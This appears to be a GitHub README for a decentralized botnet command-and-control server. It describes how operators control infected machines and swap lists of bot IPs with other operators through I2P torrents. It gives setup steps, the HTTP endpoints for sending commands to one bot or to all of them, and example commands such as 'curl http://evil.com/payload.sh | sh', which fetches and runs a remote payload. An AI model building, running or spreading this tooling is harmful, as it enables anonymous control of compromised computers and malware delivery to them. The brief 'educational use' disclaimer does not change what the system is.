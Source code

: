 

# 📘 C2 Server over I2P with Bot Sharing via Magnet Torrents

---

## 🔧 Overview

This Command-and-Control (C2) server allows operators to:

* Control bots over the public internet.
* Seamlessly share bots with **other C2 servers** through **I2P** torrents (via magnet links).
* Use `i2psnark` to fetch and seed peer `.txt` files containing IPs of bots.
* Store all bot information in `bots.txt` automatically (from all peers).
* Send commands to a specific bot or **broadcast** to all online bots.



This system requires **no registration**, has **no central authority**, and functions as a **decentralized, anonymous C2 federation** over the I2P network.

---

## 🛠️ Prerequisites

### ✅ Operating System

* Debian-based Linux (Ubuntu, Kali, Debian)
* Works on VPS, dedicated, or I2P-enabled hidden nodes

### ✅ Dependencies

* Python 3.8+
* `flask` and `requests` Python libraries
* I2P with **i2psnark** enabled

### ✅ Python Packages

Install dependencies:

```bash
sudo apt update
sudo apt install python3-pip curl -y
pip3 install flask requests
```

---

## 🌐 I2P Setup

1. **Install I2P** (Debian/Ubuntu):

   ```bash
   sudo apt install i2p
   ```

2. **Run I2P Router:**

   ```bash
   i2prouter start
   ```

3. Access I2P router console in your browser:

   ```
   http://127.0.0.1:7657
   ```

4. Go to **i2psnark**:

   ```
   http://127.0.0.1:7657/i2psnark/
   ```

---

## 📁 Project Structure

```
c2/
├── c2_server.py           # Main C2 server
├── magnet_links.txt       # Magnet links to join other C2's shared bots
├── shared_bots/           # Shared files (peer .txt files with bot IPs)
├── bots.txt               # Master list of known bots (local + shared)
└── commands.json          # Commands assigned to each bot
```

---

## 🔌 Setup & Running the Server

1. **Clone or place the files** in your server's working directory.

2. **Add magnet links** from other C2s in `magnet_links.txt`:

   ```
   magnet:?xt=urn:btih:EXAMPLEMAGNET1
   magnet:?xt=urn:btih:EXAMPLEMAGNET2
   ```

3. **Run the server:**

   ```bash
   python3 c2_server.py
   ```

---

## 📡 Features & Functionality

### 📥 `magnet_links.txt`

* This file contains a list of **I2P magnet links** to shared `.torrent` files from other C2s.
* Each torrent contains a `.txt` file with bot IPs.
* On launch, the server adds these to `i2psnark` via its local HTTP API.

---

### 📂 `shared_bots/` folder

* This is where i2psnark downloads `.txt` files from the shared torrents.
* Each file contains IP addresses of bots collected by other C2 servers.
* These are merged into `bots.txt` automatically every 60 seconds.

---

### 📜 `bots.txt`

* A master bot list (deduplicated) combining:

  * Your manually added bots
  * Peer-shared bots from `shared_bots/`

---

### 📦 `commands.json`

* Stores commands for each bot in this format:

  ```json
  {
    "bot1_public_ip": "curl http://evil.com/payload.sh | sh",
    "bot2_public_ip": "echo 'hi'"
  }
  ```

---

## 🧪 Usage Examples

### ➕ Add a command for a specific bot

```bash
curl -X POST http://localhost:8080/sendcmd \
     -H "Content-Type: application/json" \
     -d '{"botid": "154.65.100.201", "cmd": "whoami"}'
```

---

### 📢 Broadcast a command to all bots

```bash
curl -X POST http://localhost:8080/broadcast \
     -H "Content-Type: application/json" \
     -d '{"cmd": "curl http://evil.com/payload.sh | sh"}'
```

---

### 🤖 How bots fetch commands

Each bot should make requests like:

```
GET http://C2_IP:8080/getcmd/123.45.67.89
```

The server will respond with the latest command or an empty string.

---

## 📡 How I2P Sharing Works

1. Your C2 server:

   * Loads magnet links to shared `.torrent` files.
   * Downloads `.txt` files (with IPs of bots) via i2psnark.

2. Other C2s do the same:

   * They join your torrents and see your shared `shared_bots/local.txt`.

3. This builds a **mesh of shared botnets** using `.txt` files as simple syncing mediums.

---

## 🧷 How to Seed Your Own Bot List

1. Inside `shared_bots/`, create a file like `local.txt`:

   ```
   123.45.67.89
   11.22.33.44
   ```

2. Create a `.torrent` for `shared_bots/` folder using `i2psnark`.

3. Copy the generated **magnet link** from i2psnark, and give it to other C2 operators.

They can then add it to their own `magnet_links.txt` and receive your bot list.

---

## 🔐 Security & Anonymity

* Uses **I2P** to avoid public IP leakage between C2 servers.
* No central coordination — purely peer-to-peer.
* No usernames, passwords, or registration — just magnet links.
* Commands are only executed on bots reachable on the **clearnet**.

---

## ❗ Warnings (Ethical Use)

This system is designed **strictly for educational use, authorized testing, or simulations**. Misuse for illegal botnet control is a crime in most jurisdictions.

---

## 🧩 To Do / Optional Features

* Add encryption/signature verification for commands.
* Add an authentication mechanism (e.g., per bot token).
* Add reply/report channel for bots.
* Auto-generate `.torrent` files from CLI.

